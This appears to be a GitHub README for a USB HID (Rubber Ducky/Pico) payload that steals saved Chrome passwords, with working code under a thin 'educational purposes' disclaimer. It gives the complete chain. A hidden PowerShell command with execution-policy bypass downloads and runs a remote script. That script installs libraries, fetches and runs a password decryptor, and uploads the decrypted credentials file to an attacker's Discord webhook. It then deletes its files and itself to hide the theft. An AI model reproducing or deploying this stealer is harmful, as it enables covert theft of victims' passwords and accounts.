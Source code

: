 THIS SCRIPT IS ONLY INTENDED FOR EDUCATIONAL PURPOSES
(decrypt script made by ohyicong)

# What it does

This payload downloads and executes a powershell script that downloads a python chrome password decryptor, and then sends the decrypted passwords over discord using webhooks.

# Dependencies:
- Windows
- Python

# How it Works:

(This code is very unoptimized, but i havent bothered fixing it)

## The rubber ducky script
When the grabber.dd runs it opens a powershell terminal window and enters this string:

```powershell
powershell -w h -NoP -NonI -Exec Bypass -c "cd $env:USERPROFILE\Documents ; iwr -Uri https://raw.githubusercontent.com/simen64/Pico-HID-Scripts/main/chrome-password-stealer/starter.ps1 -OutFile $Env:USERPROFILE\Documents\starter.ps1 ; powershell.exe -File .\starter.ps1 -webhookUrl "<Your discord webhook here>""
```

### Flags used:

The ```powershell -w h -NoP -NonI -Exec Bypass -c``` tells powershell to execute a set of commands with some flags:
- ```-w h``` tells powershell to run in a hidden window so the victim cant see logs
- ```-NoP``` makes sure that none of the users profiles are loaded, which could mess up execution
- ```-NonI``` Makes the user unable to interact with the script while its running
- ```-Exec Bypass``` Makes powershell bypass the execution policy which allows powershell to run scripts
- ```-c``` tells powershell what commands to execute, the commands are enclosed in quotes and seperated with semicolons
- Now the script proceecds to execute a sequence of commands

### Commands ran:

1. The first command ran is ```cd $env:USERPROFILE\Documents``` which takes us into the users Documents folder where we will be doing everything
   
2. Next we run ```iwr -Uri https://raw.githubusercontent.com/simen64/Pico-HID-Scripts/main/chrome-password-stealer/starter.ps1 -OutFile $Env:USERPROFILE\Documents\starter.ps1``` which invokes a web request to the github link where the starter.ps1 script is and downloading it, the script is placed in the Documents folder with the -OutFile argument
  
3. Now we run ```powershell.exe -File .\starter.ps1 -webhookUrl "<Your discord webhook here>"``` as our last command. This uses the powershell interpreter to execute the starter.ps1 script and then passes the variable -webhookUrl to the powershell script. This is used for the discord webhook in the script. Dont forget to put your discord webhook there or it wont work.

## The powershell script

The powershell script is used as sort of a base of operations, it downlaods the python password decryptor and sends the file over discord. Heres how it works:

### Extracting the passwords:

To extract the passwords saved in chrome we use a python script made by ohyicong, if you are interested in how it works you can read his [medium article](https://ohyicong.medium.com/how-to-hack-chrome-password-with-python-1bedc167be3d)

First we tell powershell where python is located on the system so we can use it to execute the script:
```powershell
$filePath = "$env:LocalAppData\Programs\Python\Python311\python.exe"
```
Then we install the needed python libraries, if the user already have the libraries pip will automaticly cancel the installation and the script will proceed wither way.
```powershell
py -m pip install pycryptodomex pywin32
```
Then we download the python script the same way the rubber ducky script downloaded the ```starter.ps1``` scrip:
```powershell
Invoke-WebRequest -Uri https://github.com/simen64/Pico-HID-Scripts/blob/main/chrome-password-stealer/decrypt_chrome_password.py -OutFile $Env:USERPROFILE\Documents\stealer.py
```
Now we run the python script using this line. The ```&``` tells powershell to execute a command. The ```$env``` variable is where python is located and the ```$Env``` variable is where the python script is saved from the previous step
```powershell
& $env:LocalAppData\Programs\Python\Python311\python.exe $Env:USERPROFILE\Documents\stealer.py
```

### Sending the passwords over Discord

This part of the code is what takes the decrypted passwords file and sends it to you over discord.

First we define the user thats logged into the computer, this will be used to acces folders like ```C:\Users\User\Documents\```
```powershell
$user = $env:USERNAME
```
Then we use the now defined &user variable to define where the file ```decrypted_password.csv``` file is stored, this file contains the passwords that the python script previosly extracted.
```powershell
$file = "C:\Users\$user\Documents\decrypted_password.csv"
```
This variable plains and simple tells discord what message to deliver the file with
```powershell
$message = "Extracted passwords:"
```
This line of code is used to generate a unique identifier for the message each time the script is ran
```powershell
$boundary = [System.Guid]::NewGuid().ToString()
```
Here we read the ```decrypted_password.csv``` file from the previously defined ```$file``` variable and saves it into a variable called ```$fileContent```
```powershell
$fileContent = [System.IO.File]::ReadAllBytes($file)
```
This code takes all of the now gathered information and puts it into an array called ```$bodyLines``` that is joined to one string in a variable called ```body```
```powershell
$bodyLines = @(
    "--$boundary",
    "Content-Disposition: form-data; name=`"content`"",
    "",
    $message,
    "--$boundary",
    "Content-Disposition: form-data; name=`"file`"; filename=`"file.txt`"",
    "Content-Type: application/octet-stream",
    "",
    [System.Text.Encoding]::Default.GetString($fileContent),
    "--$boundary--"
)

$body = $bodyLines -join "`r`n"
```
After that is gathered we have to define the http headers for the webhook, we set the header to ```multipart/form-data``` so it know that we are sending a file. Then we give the request or unique identifier with the variable ```$boundary``` that we generated earlier.
```powershell
$headers = @{
    "Content-Type" = "multipart/form-data; boundary=$boundary"
}
```
Last but not least we invoke a web request to our webhook with all of our information. This includes setting the request to POST, including the headers and the body.
```powershell
Invoke-RestMethod -Uri $webhookUrl -Method Post -Headers $headers -Body $body
```
And after the script is done it self destructs and deletes all the files downloaded, ```$MyInvocation.MyCommand.Source``` is a built in powershell variable that defines the script that its being called from.
```powershell
Remove-Item stealer.py -Force
Remove-item decrypted_password.csv -Force
Remove-Item -Path $MyInvocation.MyCommand.Source
```
